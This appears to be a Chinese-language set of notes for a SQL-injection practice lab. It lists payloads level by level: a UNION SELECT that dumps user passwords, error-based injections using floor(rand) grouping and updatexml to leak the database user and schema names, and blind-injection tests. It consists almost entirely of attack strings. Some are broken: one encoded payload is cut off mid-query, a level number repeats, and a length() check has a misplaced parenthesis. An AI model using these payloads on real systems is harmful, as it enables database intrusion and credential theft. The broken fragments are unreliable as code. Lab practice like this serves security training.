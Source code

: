 ```
id=-1' union select 1,2,(select group_concat(password) from users) --+
```
![](https://pic.superbed.cn/item/5dcacbb18e0e2e3ee9ba7a0c.jpg)

- 第二关

```
id=1 and 1=2
```

- 第三关

```
id=1') and 1=2 
```

- 第四关（联合结束）

```
id=1") and 1=2 --+
```

- 第五关（报错开始）

```
id=1' and (select 1 from (select count(*),concat((user()),floor (rand(0)*2))x from information_schema.tables group by x)a) --+

and(select%201%20from(select%20count(*),concat((select%20(select%20(SELECT%20distinct%20group_concat(0x7e,schema_name,0x7e)%20FROM%20information_schema.schemata%20LIMIT%200,1))%20from%20information_schema.tables%20limit%200,

```
![](https://pic.superbed.cn/item/5dcc06c68e0e2e3ee9ef1fd4.jpg)

![](https://pic.superbed.cn/item/5dcd4a248e0e2e3ee91b878a.jpg)

![](https://pic.superbed.cn/item/5dcd4ab38e0e2e3ee91bab9f.jpg)

![](https://pic.superbed.cn/item/5dcd4b288e0e2e3ee91bc42f.jpg)

![](https://pic.superbed.cn/item/5dcd4b658e0e2e3ee91bcd68.jpg)


- 第六关

```
id=1" and updatexml(1,concat('~',user(),'~'),1) --+ 
```

- 第五关（盲注）

```
1' and left(version(),1)=5 --+

and length(database()=8) --+

```
